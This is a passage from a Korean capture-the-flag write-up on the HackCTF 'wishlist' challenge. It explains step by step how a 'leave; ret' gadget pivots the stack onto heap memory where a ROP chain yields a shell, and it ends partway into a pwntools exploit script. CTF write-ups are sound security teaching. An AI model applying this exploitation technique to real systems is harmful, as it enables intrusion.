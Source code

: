     - ret위치에 0x4008d8 를 넣었는데 이는 "leave; ret;" 가젯 주소이다<br><br>

6. **스택 피보팅으로 fake stack 조지기 !**

    지금부터 중요하다. 위 5번에서 0x20 바이트를 input: 에 입력하고  에필로그 가 진행될때 상황을 살펴보자<br>

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20wishlist/Untitled%2013.png)

    - 해당 함수의 원래의 에필로그다. 현재 leave가 되기 직전 상황인데, leave는 위 사진과 같이 두개의 명령어가 실행된다고 보면 된다.
    - 현 rbp의 값이 rsp에 복사가 되기 때문에 rsp 값은 0x..c70이 된다
    - 그다음 rsp가 가리키는 값을 pop하여 rbp에 저장한다. 따라서 현재 rsp는 0x12efce8을 가리키고 있으므로 해당 값이 rbp에 들어간다
    - pop이 진행됬으므로 rsp가 증가하여 0x...c78이 된다<br><br>

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20wishlist/Untitled%2014.png)

    - leave가 끝난 상황이다. 이제 ret가 실행되면 'pop rip;' 이 실행된다고 보면 된다. 현재 rsp가 가리키는 값이 0x4008d8 인데 여기는 우리가 아까 넣어둔 leave 가젯이다
    - 현재 rbp는 아까 pop rbp로 인해 0x12efce8이 된 상황이다.
    - 결국 여기서 ret이 실행되면 다시 leave로 갈것이다.<br><br>

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20wishlist/Untitled%2015.png)

    - 다시 leave로 돌아왔다. 여기서 leave가 실행되면 rbp, rsp값이 둘다 0x12efce8이 될것이다
    - 그리고 pop rbp가 진행되면서 rsp가 가리키는 값인 0x21이 rbp에 들어가고 rsp는 8증가해 0x12efcf0이 될 것이다<br><br>

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20wishlist/Untitled%2016.png)

    - leave가 끝나면 현재 rbp에는 0x21이 들어가 있고 rsp는 0x12efcf0가 된다.
    - 스택을 확인해보자. 원래 0x7ff... 형태의 주소가 스택의 주소였는데, leave, ret; 가젯을 이용해서 가짜 스택 즉, 우리가 원하는 주소를 스택으로 사용할수 있게 되었다!
    - 이 주소는 우리가 1번 메뉴를 통해 할당받는 힙 주소들이다.
    - ret가 진행되면 현재 rsp가 가리키는 값인 0x400b03가 rip들어갈 것이고, 이는 pop rdi 주소이다<br><br>

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20wishlist/Untitled%2017.png)

    -  이제 우리가 아까 힙에 삽입해놨던 ROP 페이로드가 실행되면서 쉘이 떨어진다

<br><br>

최종 익스코드는 다음고 같다
```python
from pwn import *

context(arch="amd64",os="linux",log_level="DEBUG")
#p=remote("ctf.j0n9hyun.xyz", 3035)
p=process("./wishlist",aslr="False")
#gdb.attach(p,'code\nb *0x91f+$code\n')

e=ELF("./wishlist")

def make(wishlist):
    p.sendlineafter("input: ","1")
    p.sendafter("wishlist: ",wishlist)

def view(index):
        p.sendlineafter("input: ","2")
        p.sendlineafter("index: ",str(index))

def remove(index):
        p.sendlineafter("input: ","3")
        p.sendlineafter("index: ",str(index))

make("A"*8)
make("B"*8)
make("C"*8)

remove(0)
```